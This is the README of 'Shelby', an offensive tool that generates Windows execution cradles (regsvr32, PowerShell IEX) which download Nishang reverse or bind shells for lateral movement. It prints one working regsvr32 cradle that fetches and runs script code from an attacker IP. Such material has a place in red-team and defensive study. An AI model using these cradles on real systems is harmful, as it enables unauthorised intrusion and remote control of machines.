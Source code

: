 <p align="center">
  <img alt="By Order of the Peaky Blinders" src="https://i.imgur.com/5n0ly8K.png" height="140"/>
  <p align="center">
    <a href="https://github.com/ad-995/shelby/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/ad-995/shelby.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/issues"><img alt="GitHub issues" src="https://img.shields.io/github/issues/ad-995/shelby.svg?style=flat-square"></a>
    </p>
</p>

<h5 align="center"><i>Execution Cradle Generation!</i></h5>

***

## Introduction

`Shelby` is a Windows Execution Cradle Generator inspired by [PoshC2](https://github.com/nettitude/PoshC2/blob/master/poshc2/server/Payloads.py) and their `PoshC2_Project/quickstart.txt` documentation. 

The aim of this project is to automatically generate several commonly used Execution Cradles for lateral movement. Future releases will include some classic Linux cradles too.

## Cradles
For our initial proof-o'-concept, we have two cradles:
- `regsvr32`
- `powershell IEX (...)`

These can be run with any command execution. When `Shelby` is run, the provided snippets will update with the given IP address and port and are available in plaintext and base64-encoded.

## Shells
Two shells are currently inside `Shelby`, both from [Nishang](https://github.com/samratashok/nishang). We found these to be more reliable:
- [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- [Invoke-PowerShellTcpOneLineBind](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLineBind.ps1)

Additional shells for Windows and Linux coming soon!

## Modularity
Details on how to add cradle and shells to `Shelby` can be found at [ad-995](https://ad-995.group/projects/shelby.html).

## Example
Below is an example output:
![Shelby Output](https://i.imgur.com/Q9iepvW.png)

## Usage
```
usage: shelby.py [-h] -i  [-w] [-p] [-d]

Giver of shells

optional arguments:
  -h, --help            show this help message and exit
  -i , --ip-address     Attacker IP Address
  -p , --cradle-port    Port for receiving shells
  -w , --web-delivery   Port for serving shells
  -d , --directory      Directory for generated payloads
```

There are some important things to note here:
- `--ip-address`: The IP address that the `shells` will call back to.
- `--cradle-port`: The port that the `shells` will call back to.
- `--web-delivery`: The port that the `cradles` will use to retrieve the `shell`.
- `--directory`: The directory in which all the `cradles` and `shells` will be saved to, as well as the `cradle_commands.txt` file. You should run your web delivery server here.

The `cradle_commands.txt` file contains all the Execution Cradle commands. For example:

```
regsvr32:
regsvr32 /s /n /u /i:http://10.10.11.58:80/sctlvjzqylbdzdl scrobj.dll
```

As more Execution Cradles are added, the format will be the same.:

```
Method:
Cradle Command
```

Finally, the easiest usecase here is to serve the `./web_delivery` directory with `python -m SimpleHTTPServer 80`. 

A project by [mez-0](https://github.com/mez-0) & [michaelranaldo](https://github.com/michaelranaldo)

